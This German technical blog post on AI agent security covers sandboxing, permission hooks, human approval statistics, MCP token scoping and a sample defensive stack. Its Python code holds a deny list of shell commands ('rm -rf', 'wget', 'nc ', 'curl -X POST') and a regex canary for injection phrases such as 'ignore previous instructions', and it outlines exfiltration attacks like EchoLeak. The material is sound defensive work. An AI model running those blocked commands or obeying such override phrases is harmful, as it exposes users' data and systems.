Codex' Linux-Pfad stapelt vier kernelnahe Sperren: PR_SET_NO_NEW_PRIVS (der Prozess kann niemals zusätzliche Privilegien erlangen, selbst wenn er es versucht), einen seccomp-Filter (der Kernel verweigert die meisten System Calls vollständig; in diesem Fall alles, was einen Network Socket öffnet, außer lokalen Unix-Sockets), ein frisches isoliertes /proc (der Prozess kann den Rest der Maschine nicht sehen) und RLIMIT_CORE=0 (keine Crash Dumps, damit auf diesem Weg nichts abfließt). Windows fährt zwei Modi, unelevated (ein Restricted-Token-Prozess, der Privilegien verliert, aber weiter als derselbe User läuft) und elevated (ein dedizierter Sandbox-User, isoliert hinter Firewall-Regeln), plus kleine Fake-Executables vor dem System-PATH, damit Agent-Versuche, curl oder wget auszuführen, den Interceptor statt des echten Tools treffen. Hier sitzt eine ganze Subdisziplin von Engineering, und das Modell kommt gar nicht vor. Genau dort liegt die eigentliche Arbeit.
Jenseits von Claude Code und Codex: Was der Rest der Branche verwendet
Wenn Sie Ihren Agent selbst bauen, stellt sich heraus, dass „Sandbox“ ein Schirmbegriff ist. Die Open-Source-Optionen liegen auf einem Spektrum — leichte Namespace-Wrapper auf der einen Seite, volle MicroVMs auf der anderen — und welche Sie wählen, hängt davon ab, wie sehr Sie dem Code im Inneren vertrauen.
Leichte Isolation — gleicher Kernel, weniger Privilegien:
- bubblewrap — ein Namespace-plus-seccomp-Wrapper. Dasselbe Tool, das Flatpak nutzt, dasselbe Tool, zu dem Claude Code unter Linux greift. Schnell, günstig, ausreichend für vertrauenswürdige Tooling-Setups.
- Standard-Docker-/OCI-Container — Namespace-Isolation über einen gemeinsam genutzten Host-Kernel. Keine Sandbox für nicht vertrauenswürdigen Code; gVisors eigene Dokumentation sagt das ausdrücklich („containers are not a sandbox“). Ein vernünftiger Startpunkt in Kombination mit seccomp und AppArmor, mehr nicht.
Application-Kernel-Isolation — der Agent spricht mit einem Fake-Kernel:
- gVisor — Googles User-Space-Kernel. Ihr Container glaubt, auf Linux zu laufen; Syscalls werden tatsächlich von einer Go-Kernel-Implementierung abgefangen. Die Angriffsfläche des Host-Kernels schrumpft drastisch, ohne VM-Overhead. Wird von Modal verwendet.
Volle VM-Isolation — ein dedizierter Kernel pro Sandbox:
- Firecracker — AWS' MicroVM-Technologie, dieselbe, auf der Lambda läuft. ~125ms Cold Starts. Jede Sandbox bekommt ihren eigenen echten Linux-Kernel innerhalb von KVM. Ein Kernel Escape in einer Sandbox berührt weder den Host noch Geschwister-Sandboxes.
- Kata Containers — Container-UX, VM-Grade-Isolation. Dorthin gehen Kubernetes-Cluster, wenn sie nicht vertrauenswürdigen Code ausführen müssen.
Plattformen — was Sie mieten würden, statt es selbst zu bauen:
- E2B kapselt Firecracker in eine Hosted API. Wird von Perplexity, Manus und dem Großteil der Fortune 100 verwendet.
- Alibabas OpenSandbox lässt Sie Ihr Runtime wählen — gVisor, Kata oder Firecracker — hinter einem SDK.
- Microsofts Agent Governance Toolkit (MIT-lizenziert, April 2026) legt eine Runtime-Policy-Engine darüber. Sub-Millisekunden-Enforcement, direkt auf die OWASP ASI Top 10 ausgerichtet.
Faustregel. Führen Sie eigene Skripte über einen Agent aus? bubblewrap und seccomp reichen. Führen Sie LLM-generierten Code oder nicht vertrauenswürdige Drittools aus? Greifen Sie mindestens zu gVisor. MicroVMs, wenn der Blast Radius wirklich zählt — Multi-Tenant, Compliance oder irgendetwas mit Kundenkontakt.
Claude Code und Codex haben aus demselben Menü gewählt wie alle anderen. Sie haben es nur unterschiedlich verpackt.
PreToolUse-Hooks als programmierbare Policy
Modes und Allowlists decken die einfachen Fälle ab: „lass den Agent Dateien bearbeiten, aber kein bash ausführen“, „verweigere alles, was wie rm -rf aussieht.“ Sie scheitern, sobald Ihre Policy echte Logik braucht. Sie wollen git push nur blockieren, wenn der Branch main ist. Sie wollen jedes Edit verweigern, das eine Datei trifft, die auf ein Secret-Regex passt. Sie wollen Shell-Calls pro Session rate-limitieren oder jede Tool-Invocation in Ihr zentrales Audit-Log leiten (das SIEM, also das Security Information and Event Management System, das Ihr Security-Team ohnehin überwacht).
Nichts davon passt in eine statische Allowlist. Dafür gibt es Hooks — Shell-Commands, die Claude Code an spezifischen Punkten im Tool-Call-Lifecycle ausführt, mit der Fähigkeit, den ausstehenden Call zu inspizieren und ein strukturiertes Allow/Deny zurückzugeben. Claude Code exponiert ein Dutzend Lifecycle-Events (die vollständige Liste steht in der Dokumentation), und eines davon ordnet alles andere neu: Ein PreToolUse-Hook, der permissionDecision: "deny" zurückgibt, blockiert ein Tool unabhängig vom Mode.
So sieht die Settings-Struktur aus:
{
"permissions": {
"defaultMode": "acceptEdits",
"deny": ["Bash(rm -rf:*)", "Bash(sudo:*)", "Read(.env*)"]
},
"hooks": {
"PreToolUse": [
{
"matcher": "Bash",
"hooks": [
{
"type": "command",
"command": ".claude/hooks/pre-bash-firewall.sh"
}
]
},
{
"matcher": "Edit|Write",
"hooks": [
{
"type": "command",
"command": ".claude/hooks/protect-paths.sh"
}
]
}
]
}
}
Ein Hook kann ein fünfzeiliges Shell-Skript oder eine vollständige Policy-Engine sein. Wichtig ist die Rückgabeform:
{
"hookSpecificOutput": {
"permissionDecision": "deny",
"permissionDecisionReason": "writes outside workspace prohibited"
}
}
Das Modell sieht ein strukturiertes Deny. Die Reasoning Loop aus Teil 1 verarbeitet es wie jede andere Tool Observation: Die Ablehnung wird Kontext, der Agent plant neu, die Loop läuft weiter. Das ist der kleine, aber wichtige Grund, warum ich immer wieder sage, Berechtigung ist Infrastruktur. Sie ist in denselben Mechanismus verdrahtet, der auch ein 500 von einem HTTP-Tool verarbeitet. Es ist kein separater Security-Workflow, der nachträglich angeflanscht werden muss.
Ein häufiges Anti-Pattern ist ein System-Prompt wie „do not delete any files without explicit user confirmation,“ der dann als Kontrolle behandelt wird. Ein Prompt oder korrumpierter Tool-Output kann diese Anweisung umgehen. Das Modell ist keine Policy-Engine. Es kann das von Ihnen geschriebene Muster treffen oder eines, das ein Angreifer liefert.
Human-in-the-Loop und die Zahlen dazu, ob überhaupt jemand diese Prompts liest
Die Content-Filter-Schicht läuft parallel zum Modell und beobachtet, was es sagt. Permission Ladders laufen vor dem Tool und beobachten, was es zu tun versucht. Die dritte Schicht, die das abfängt, was die ersten beiden übersehen haben, ist der Mensch. Gut umgesetzt ist HITL ein Eskalationskanal. Schlecht umgesetzt ist es ein Dialogfenster, das in 93 % der Fälle weggeklickt wird.
Der Rest dieses Abschnitts zeigt, wie man die erste Art baut: das LangGraph-Primitiv, das HITL überhaupt möglich macht, die kommerzielle Schicht darum herum (HumanLayer), die Forschung dazu, ob Menschen diese Prompts tatsächlich lesen, und das Design-Prinzip, das Sie aus der 93-%-Zone heraushält.
Das LangGraph-Primitiv
LangGraphs interrupt() + Command(resume=value) ist 2026 das produktive Primitiv — de facto die Art und Weise, wie Python-Agent-Frameworks Ausführung pausieren, die Kontrolle an einen Menschen übergeben und mit dessen Input fortsetzen. Drei Dinge daran, wie es tatsächlich läuft, brechen Ihren Agent, wenn Sie sie übersehen, und das erste ist so ungewöhnlich, dass ich die Dokumentation wörtlich zitiere:
"When execution resumes (after you provide the requested input), the runtime restarts the entire node from the beginning — it does not resume from the exact line where
interruptwas called."
Dieser eine Satz hat mehr produktive Agents kaputtgemacht als jedes andere LangGraph-Verhalten. Daraus folgen drei konkrete Stolperfallen:
1. Side Effects vor interrupt() müssen idempotent sein. Wenn der Mensch antwortet, läuft der ganze Node wieder von oben an, nicht von der Zeile interrupt(). Wenn Ihr Node also eine E-Mail verschickt, für Approval pausiert und dann „sent“ zurückgibt, wird beim Resume die E-Mail ein zweites Mal verschickt. Fix: Side Effects nach dem Interrupt platzieren oder wiederholsicher machen (Dedupe Keys, Upsert statt Insert, Cache nach Message ID).
2. Interrupts werden anhand des Indexes den Resumes zugeordnet, nicht anhand des Namens. Wenn ein einzelner Node zwei interrupt()-Calls hat, paart LangGraph sie mit Command(resume=...)-Werten in der Reihenfolge, in der sie feuern. Jedes Branching, das verändert, wie viele Interrupts laufen (ein if, das einen beim Resume überspringt, eine Loop mit anderer Iterationszahl), bringt die Indexe durcheinander und führt zum Crash.
3. Payloads müssen JSON-serialisierbar sein. Die Pause wird in einen Checkpointer geschrieben (Postgres, Redis, SQLite), damit der Agent einen Prozessneustart überlebt. Rohe Python-Objekte, datetime, set, benutzerdefinierte Klassen: nichts davon roundtrippt. In Dicts und Primitive konvertieren, bevor Sie etwas an interrupt() übergeben.
Die drei kanonischen Muster:
# (a) Approval gate
@tool
def send_email(to, subject, body):
resp = interrupt({"action": "send_email", "to": to,
"subject": subject, "body": body})
if resp.get("action") == "approve":
return smtp_send(to, subject, body)
return "Email cancelled"
# (b) Edit-and-continue
def review_node(state):
edited = interrupt({"content": state["generated_text"]})
return {"generated_text": edited}
# (c) Mid-run state correction — loop until valid
def get_age_node(state):
prompt = "What is your age?"
while True:
answer = interrupt(prompt)
if isinstance(answer, int) and answer > 0:
return {"age": answer}
prompt = f"'{answer}' is not valid. Please enter a positive number."
Resume ist graph.invoke(Command(resume={"action": "approve"}), config=cfg). LangGraph 0.4+ unterstützt Dict-basiertes Multi-Interrupt-Resume für parallele Branches, was in dem Moment relevant wird, in dem Ihr Agent ausfächert.
HumanLayer: Approval als Produkt
HumanLayer ist die gemanagte Version derselben Idee. Eine Funktion dekorieren, und Approval-Requests werden an Slack, E-Mail oder Discord geroutet, mit Regeln dafür, wer benachrichtigt wird. Wenn der Agent versucht, multiply(2, 5) aufzurufen, sehen die Logs so aus:
last message led to 1 tool calls: [('multiply', '{"x":2,"y":5}')]
HumanLayer: waiting for approval for multiply
Der Approver klickt in Slack auf approve oder deny. Bei einem deny formuliert die HumanLayer-Dokumentation es so: "HumanLayer will pass your feedback back to the agent, which can then adjust its approach." Genau dieser letzte Teil trennt eine echte HITL-Schicht von einem glorifizierten Bestätigungsdialog. Der Mensch wird zu einem Signal, über das der Agent innerhalb derselben Loop nachdenkt, statt zu einem Gate, das nur Ja oder Nein kennt.
Die Zahlen, über die niemand sprechen will
Anthropic veröffentlichte die echten Daten im Februar 2026. Drei Ergebnisse zählen mehr als der Rest.
"We found that 80% of tool calls come from agents that appear to have at least one kind of safeguard (like restricted permissions or human approval requirements), 73% appear to have a human in the loop in some way, and only 0.8% of actions appear to be irreversible."
Das sind die guten Nachrichten. Behandeln Sie 80 % als obere Grenze, denn Anthropics Fußnote 14 ergänzt, dass "Claude often overestimated human involvement, so we expect 80% to be an upper bound."
"Newer users (<50 sessions) employ full auto-approve roughly 20% of the time; by 750 sessions, this increases to over 40% of sessions."
Das ist der Drift. Nutzer starten vorsichtig. Nutzer werden weniger vorsichtig, wenn sie Vertrauen in das Tool aufbauen. Genau das tun Menschen. Das ist kein Charakterfehler. Es ist ein Telemetriesignal, das Ihr System kennen muss. (Kleine Fact-Check-Notiz: In Sekundärberichten wird das oft als „20 % → über 50 %“ zitiert. Gegen Anthropics Primärdaten ist die verifizierte Zahl 20 % → über 40 %. Falls Sie die 50-%-Zahl gesehen haben: daher kommt sie und deshalb stimmt sie nicht.)
Anthropics Engineering-Post vom März 2026 über Claude Codes Auto Mode liefert die zentrale Zahl:
"Claude Code users approve 93% of permission prompts. We built classifiers to automate some decisions, increasing safety while reducing approval fatigue... If a session accumulates 3 consecutive denials or 20 total, we stop the model and escalate to the human."
93 % Zustimmung ist das zentrale Signal. Wenn ein Dialog in neun von zehn Fällen genehmigt wird, ist er keine verlässliche Sicherheitskontrolle mehr. Er ist Telemetrie. Nutzer haben gelernt, sich durchzuklicken. Anthropics Antwort ist architektonisch. Ein zweistufiger Classifier (schneller Single-Token-Filter, dann Chain-of-Thought nur bei Flag, 0.4 % FPR) entfernt Approval-Prompts für Low-Risk-Aktionen und stoppt die Loop vollständig, wenn sich Ablehnungen häufen.
Das Design-Prinzip
Nur Eskalation. Routineaktionen allowlisten, loggen und nur Ausnahmen sichtbar machen. Bewerten Sie jede Aktion nach Blast Radius: Die ~99 %, die reversibel sind (Edits, Reads, sichere Shell-Commands), sollten mit Logging und ganz ohne Prompt durchlaufen. Die ~1 %, die irreversibel sind — rm -rf, git push --force, ein DROP TABLE, das Senden einer E-Mail, das Ausgeben von Geld — sind die Fälle, in denen ein menschlicher Prompt nützlich ist. Anthropic formuliert es gut: "effective oversight doesn't require approving every action but being in a position to intervene when it matters."
Die Anzahl der Approvals ist also eine Produktmetrik, und so sollten Sie sie lesen. Die sauberere Upstream-Metrik ist die Eskalationsrate — welcher Anteil der Agent-Aktionen überhaupt einen Prompt auslöst. Die Branchenguidance konvergiert auf ~10–15 % (Galileo), nach oben angepasst für regulierte Domänen (Finanzen, Healthcare) und nach unten für Routinedomänen. Unter 10 % sehen Menschen nur selten relevante Aktionen. Über 15 % werden Approvals leicht wieder automatisch.
Für die Prompts, die doch feuern, veröffentlicht Anthropics Auto-Mode-Post bewusst keine Ziel-Approval-Rate. Er behandelt 93 % nur als Evidenz des Problems. Der informelle Konsens liegt irgendwo bei 60–80 %: genug Ja, damit Nutzer nicht in Ablehnungen ertrinken; genug Nein, damit sie tatsächlich lesen. Eine grobe Diagnose:
- 95 %+ Zustimmung → Ihre Prompts sind Rauschen. Aggressiver allowlisten, seltener eskalieren.
- 30 % Zustimmung → Der Agent schlägt die falschen Dinge vor. Debuggen Sie den Planner, das Tool oder das mentale Modell des Nutzers darüber, was er angefragt hat.
- 60–80 % Zustimmung → wahrscheinlich gesund. Beobachten Sie weiter die Drift-Zahlen — der 20-%→40-%-Auto-Approve-Anstieg aus der Anthropic-Studie wird auch bei Ihnen auftauchen.
Die Fehlermodi sind symmetrisch, und beide verdienen Debugging.
MCP-Scoping und die Supply Chain
MCP ist das letzte Stück des 2026er Stacks, und es wird oft als normale Integrationsinfrastruktur behandelt, bis es zur Sicherheitsgrenze wird. Es ist die Schicht, über die Agents mit externen Tools sprechen: ein Slack-Server, ein GitHub-Server, ein Datenbankserver, was immer der Agent braucht. Der Grund, warum die Angriffskette von CVE-2025-59536 funktionierte, war, dass das alte MCP-Design keine Möglichkeit hatte zu sagen: „dieses Token gehört zu diesem Server und nirgendwo sonst.“ Das neue Design behebt genau das, und es lohnt sich, nachzuvollziehen, wie wir dorthin gekommen sind, denn die Form des Fixes sagt Ihnen, was Sie in Ihren eigenen Servern prüfen müssen.
MCP-Authorisierung in drei Revisionen
Die Spezifikation vom 2025-03-26 schrieb OAuth 2.1 mit PKCE vor, den Standard-Flow für Public Clients. Das war richtig, aber die Spezifikation war auf subtile und gefährliche Weise unvollständig. Sie verwischte zwei sehr unterschiedliche Rollen, die ein MCP-Server spielen kann: den Authorization Server (AS), der Tokens ausstellt, und den Resource Server (RS), der sie akzeptiert. Wenn derselbe Server beides kann, kann ein Client ein Token an Server A übergeben, und falls Server A die Anfrage Upstream an Server B weiterleitet, wandert dieselbe Credential plötzlich an einen Ort, für den sie nie gedacht war. Genau das ist die Lücke.
Die Revision vom 2025-06-18 schloss sie, indem sie eine harte Grenze zog. Ab diesem Zeitpunkt sind MCP-Server strikt OAuth-2.1-Resource-Server: Sie akzeptieren Tokens, die von einem externen Authorization Server ausgestellt wurden, und prägen nie selbst welche. Der strukturelle Fix, der das tatsächlich wirksam macht, sind RFC 8707 Resource Indicators, jetzt verpflichtend. Resource Indicators binden ein Token über einen aud-Claim (audience) an genau einen bestimmten Server, sodass das Token kryptografisch auf „Server X, nirgendwo sonst“ gescopt ist. Zusätzlich ist es Servern verboten, das Token eines Clients an einen anderen Upstream-Service weiterzuleiten, und RFC 9728 Protected Resource Metadata ersetzt den alten Fallback „Token Endpoint aus einer Default-URL erraten“ durch explizite Discovery.
Deshalb funktionieren Angriffe im Stil von CVE-2025-59536 nicht mehr. Selbst wenn ein schädliches Repo ANTHROPIC_BASE_URL auf einen Host des Angreifers umleitet, tragen die dort ankommenden Tokens einen aud-Claim, der den legitimen Host benennt. Der Server des Angreifers kann sie nicht verwenden, und ebenso wenig irgendjemand, an den der Angreifer sie weiterleitet. Audience-Binding ist ein kleines kryptografisches Detail, das eine große Policy-Lücke schließt — Sie müssen nicht jedem Server in der Kette vertrauen, dass er sich korrekt verhält, weil das Token selbst Replay verweigert.
Die MCP-Checkliste 2026
Wenn Sie MCP produktiv ausliefern oder konsumieren:
- Authentifizierung ist nicht optional. Das Azure MCP Server CVE hatte keine Auth. Wenn Ihr Server Traffic akzeptiert, ohne ein Token zu verifizieren, haben Sie ein Tool gebaut, das jeder Angreifer im selben Netzwerk aufrufen kann.
- Tokens sind audience-gebunden. Jedes MCP-Token trägt einen
aud-Claim (audience) — ein Feld im Token, das genau einen Server benennt, so wie eine Lieferadresse genau ein Haus benennt. Ihre Aufgabe ist es, bei jedem Request zu verifizieren, dass Ihr eigener Server der benannte ist. Wenn Sie das nicht tun, funktioniert jedes Token, das ein Angreifer von irgendeinem anderen Server gestohlen hat, auch gegen Ihren, und von Ihrem Server aus kann er jedes System erreichen, an das Ihrer angebunden ist. - Geben Sie jedem Tool nur die Berechtigungen, die es tatsächlich braucht. Berechtigungen leben auf dem Server, nicht auf dem Tool — wenn also ein Slack-MCP-Server die Berechtigung hat, Nachrichten zu posten (
chat:write), erben alle Slack-Tools auf diesem Server sie, auch solche, die eigentlich nur lesen sollten. Trennen Sie sie nach Möglichkeit in separate Server auf, damit ein Bug in einem Tool nicht stillschweigend eine Berechtigung mitbenutzt, die es nie gebraucht hätte. - Nutzen Sie frische, kurzlebige Tokens statt dauerhafter API-Keys. Das Claude-Managed-Agents-Vault-Muster (Anthropic Engineering) ist die Referenz: Der Agent selbst sieht die echten Credentials nie. Ein Mittelsystem hält sie, holt in dem Moment ein frisches Token, in dem ein Tool aufgerufen wird, nutzt es stellvertretend für den Agent und gibt nur das Ergebnis zurück.
Supply Chain ist die langweilige Version von all dem
Die axios- und Trivy-Vorfälle sind nicht exotisch. Es ist dasselbe Problem, das jeder mit npm und GitHub Actions seit Jahren hat, angewandt auf Agents, die Dependencies automatisch ausführen. Der agentenspezifische Unterschied ist, dass der Blast Radius größer ist, weil ein Agent npm install in tausend Projekten pro Woche ausführen kann. Ihre Supply-Chain-Disziplin muss jetzt mit Agent-Geschwindigkeit arbeiten, und die ist oft höher als Ihre Incident Response.
Die Verteidigung ist einfach:
- Versionen im Lockfile pinnen. Agents dürfen nicht
--latest. - In CI mit Tools scannen, die unabhängig von der geprüften Komponente sind.
- Für Actions GitHub-Commit-SHAs verwenden, nicht Tags.
- Dependency-Diffs auf agentgetriebenen PRs vor dem Merge reviewen.
Nichts davon ist neu. Alles davon wird kritisch, wenn ein Agent es zehntausendmal am Tag ausführt.
Ein Guardian-Stack für den Market Analyst Agent
Der Market Analyst Agent aus Teil 1 ist ein kleiner LangGraph-Agent. Er holt Marktdaten, fasst Research zusammen und soll keine Shell-Commands aufrufen, nicht außerhalb seines Workspace schreiben und nichts exfiltrieren. So sieht ein minimaler Guardian-Stack dafür aus.
Schicht 1: Ein Deny-List-PreToolUse-Hook
Selbst ein Agent, der „nur Börsendaten liest“, kann nach Dingen greifen, die er nicht sollte: ein curl auf eine vom Angreifer kontrollierte URL, Writes außerhalb des Workspace, git-Mutationen im Host-Repo. Eine Deny-Regel ist Infrastruktur, nicht Prompt.
# agent/permissions.py
DENY_COMMANDS = frozenset({
"rm -rf", "sudo", "chmod 777",
"curl -X POST", "wget", "nc ",
})
DENY_PATHS = ("/", "/etc", "/Users", "/.ssh")
def pre_tool_use(tool_name: str, args: dict) -> dict | None:
if tool_name == "shell":
cmd = args.get("command", "")
if any(bad in cmd for bad in DENY_COMMANDS):
return {"permissionDecision": "deny",
"reason": f"command pattern disallowed: {cmd!r}"}
if tool_name == "write_file":
path = args.get("path", "")
if any(path.startswith(p) for p in DENY_PATHS):
return {"permissionDecision": "deny",
"reason": f"path outside workspace: {path!r}"}
return None # fall through to mode / canUseTool
Ein Pre-Tool-Hook, ein frozenset, eine strukturierte Deny-Antwort. Der Agent sieht das Deny als Observation und kann darüber nachdenken. Hook steht über Mode. Mode steht über Modellmeinung.
Schicht 2: Ein Input-Canary gegen Prompt Injection
Agent-Goal-Hijack (ASI01) kommt oft über den Input: eine abgerufene Webseite, eine vom Nutzer bereitgestellte Nachricht, ein Research-Paper-PDF. Ein Canary-Check (ein günstiger Regex-Durchlauf, der verdächtige Strings markiert, bevor sie das Modell erreichen) fängt keine EchoLeak-Grade-Evasionen, aber 80 % opportunistischer Injections:
# agent/input_canary.py
import re
INJECTION_PATTERNS = [
re.compile(r"ignore (previous|all|prior) (instructions|rules)",
re.IGNORECASE),
re.compile(r"you are now|act as|roleplay as", re.IGNORECASE),
re.compile(r"system[ _:]*prompt", re.IGNORECASE),
re.compile(r"<\|im_(start|end)\|>"),
]
def input_canary(text: str) -> dict | None:
for pat in INJECTION_PATTERNS:
m = pat.search(text)
if m:
return {"flag": "possible_injection", "match": m.group(0)}
return None
Flaggte Inputs loggen; nicht automatisch ablehnen. False Positives sind hier für einen Research Assistant teuer. Aber das Log ist das, was Sie erkennen lässt, wenn die Anzahl der Flags bei einem Nutzer plötzlich hochspringt.
Schicht 3: Strukturierte Output-Validierung via Stop Hook
Ein Pydantic-Modell plus ein Stop-Hook geben Ihnen eine enge Validate-Then-Retry-Loop für Report-Generierung. Der Agent kann nicht „done“ behaupten, bis der Output Schema-Validierung und einen Smoke Test besteht:
# agent/stop_hook.py
from pydantic import ValidationError
from agent.schemas import MarketReport
def on_stop(final_output: str) -> dict:
try:
report = MarketReport.model_validate_json(final_output)
except ValidationError as e:
return {"decision": "continue",
"feedback": f"schema invalid: {e.errors()[:3]}"}
if not report.tickers:
return {"decision": "continue",
"feedback": "no tickers in report — did you skip the snapshot step?"}
return {"decision": "allow_stop"}
Drei Zeilen Schema-Validierung und ein Smoke Check sind der Unterschied zwischen „der Agent sagte, er sei fertig“ und „der Output ist tatsächlich ein Report“. Das ist günstige Versicherung.
Schicht 4: Ein Interrupt-Gate auf alles Outbound
Der Market Analyst sollte niemals E-Mails senden oder auf Slack posten. Aber falls er jemals ein Tool bekommt, das das kann, wird dieses Tool in interrupt() verpackt:
# agent/tools/notify.py
from langgraph.types import interrupt
@tool
def send_report(to: str, body: str):
resp = interrupt({
"action": "send_report",
"to": to,
"body_preview": body[:400],
})
if resp.get("action") == "approve":
return smtp_send(to, body)
return "send cancelled by human"
Outbound-Aktionen sind der letzte Schritt der lethal trifecta. Gaten Sie sie explizit. Die 0.8-%-Zahl aus Anthropics Paper stimmt vermutlich für den durchschnittlichen Lauf; die meisten Dinge sind reversibel. E-Mail ist es nicht. Nachrichten an Finance, Kunden oder externe Empfänger sollten Approval erfordern.
Was dieser Stack nicht tut
Die Grenzen sind wichtig. Das ist keine Verteidigung gegen:
- Eine kompromittierte Upstream-Dependency (axios-Klasse). Der Agent führt aus, was
uv syncvorgibt. - Ein schädliches
.mcp.jsonin einem geklonten Repo (Klasse CVE-2025-59536). Das wird im Permission Model des Host-MCP-Clients abgefangen, nicht im Code des Agenten. - Eine Datenabflusskette aus legitimen Tools (EchoLeak-Klasse) — der Agent liest private Daten, ruft externe URLs ab und sendet Nachrichten nach außen. Hier brauchen Sie das Trifecta-Framing: Kombinieren Sie diese drei Fähigkeiten überhaupt nicht.
Diese Hooks sind das lokale Minimum. Der Rest sitzt im Harness und im OS. Das ist Teil 5.
Wichtigste Erkenntnisse
- LLM-Guardrails kapseln einen Model-Call. Agent Guardians kapseln die Loop. Beide sind nötig. Nur das zweite fängt EchoLeak, Amazon Q, Azure MCP, Claude Code CVE-2025-59536, axios und Trivy ab.
- Acht der zehn OWASP-ASI-Kategorien für 2026 sind Harness-Themen, keine Modell-Output-Themen. Die Vorfallsverteilung und die OWASP-Verteilung stimmen überein: Die dominante Bedrohungsklasse ist unter das Modell gewandert.
- Berechtigung ist Infrastruktur, nicht Prompt. Erst Deny-Regeln, dann Ask-Regeln, dann PreToolUse-Hooks, dann Allow-Regeln, dann Mode, dann Callback. Hooks stehen über Modes. Geschützte Pfade bleiben unter
bypassPermissionsgeschützt. - Behandeln Sie ein strukturiertes Deny aus einem PreToolUse-Hook einfach als weitere Tool Observation. Die Reasoning Loop verarbeitet es bereits. Sie brauchen keinen separaten Security-Workflow.
- 93 % Zustimmung bedeutet, dass Ihr Dialog Telemetrie ist, nicht Sicherheit. Routineaktionen allowlisten, nur Ausnahmen eskalieren, die Loop bei einem Denial-Cluster stoppen. Das Design-Prinzip lautet: nur Eskalation.
- Audience-gebundene Tokens und Per-Session-Vaults sind die unspektakulären kryptografischen Fakten, die große Policy-Lücken schließen. RFC 8707 Resource Indicators und das Claude-Managed-Agents-Vault-Muster sind die Referenzimplementierungen von 2026.
- Supply Chain ist ein Harness-Thema. Agents führen
npm installschneller aus als Ihre Incident Response. Versionen pinnen, SHAs pinnen, in CI scannen, Diffs agentgetriebener PRs reviewen. - Bauen Sie die Policy-Layer so, dass ein neues Produktlaunch sie nicht ungültig macht. OpenAI Agents SDK, Codex CLI und Claude Code drücken dieselben Primitive unterschiedlich aus. Auf die Primitive (Permission Ladders, Hooks, Sandboxes, Interrupts, audience-gebundene Tokens) setzen Sie Ihre Wette.
Referenzen
Die Framings
- Bharani Subramaniam und Martin Fowler, Emerging Patterns in Building GenAI Products.
- Simon Willison, The lethal trifecta for AI agents, 16. Juni 2025.
- Joel Fokou, Parallax: A Principled Architecture for Safe Agentic AI, arXiv 2604.12986, 14. April 2026 (nicht peer-reviewed).
- Alessandro Pignati, Your AI Agent Has Too Much Power: Understanding and Taming Excessive Agency, Januar 2026.
LLM-Guardrail-Produkte
- NVIDIA NeMo Guardrails
- Meta Llama Guard 4
- Guardrails AI
- Lakera Guard
- AWS Bedrock Guardrails
- Azure Content Safety: Prompt Shields
- openai-guardrails-python
Vorfälle
- Itay Ravia (früher Aim Labs, jetzt Cato Networks), Breaking down EchoLeak (CVE-2025-32711).
- AWS, Amazon Q Developer VS Code v1.84.0 advisory (CVE-2025-8217).
- Microsoft, Azure MCP Server (CVE-2026-32211).
- Check Point Research, RCE and API token exfiltration through Claude Code project files (CVE-2025-59536).
- axios, v1.14.1 / v0.30.4 compromise post-mortem.
- Aqua Security, Trivy Actions tag hijack (GHSA-69fq-xp46-6x23).
Policy-Oberflächen
- OpenAI Agents SDK — MCP tools docs
- Codex CLI managed configuration
- Claude Code permission modes
- Claude Code sandboxing
- Claude Managed Agents
HITL
- LangGraph interrupts docs
- HumanLayer Python quickstart
- Anthropic, Measuring AI agent autonomy in practice, 18. Februar 2026.
- Anthropic, Claude Code auto mode, 25. März 2026.
- Jackson Wells (Galileo), How to Build Human-in-the-Loop Oversight for Production AI Agents, 21. Dezember 2025.
OWASP
- OWASP Agentic Security Initiative, Top 10 for Agentic Applications, 2026, 9. Dezember 2025.
Serie
- Teil 1: AI Agent Reasoning Loops im Jahr 2026 — ReAct, ReWOO und Plan-and-Execute.
- Teil 2: AI Agent Memory Architecture im Jahr 2026 — Checkpoints, Vector Stores und Document Memory.
- Teil 3: AI Agent Tool Use im Jahr 2026 — MCP, CLI, Skills, Code Execution und ACI.
- Teil 4: AI Agent Security im Jahr 2026 (dieser Beitrag)
- Teil 5: Long-Running AI Agent Runtime im Jahr 2026 — Sessions, Sandboxes, Checkpoints, Harnesses und Deployment-Formen.
Der Code für den Market Analyst Agent (der oben beschriebene PreToolUse-Deny-Hook, Input-Canary, Stop-Hook-Validator und Interrupt-Gate) liegt auf GitHub.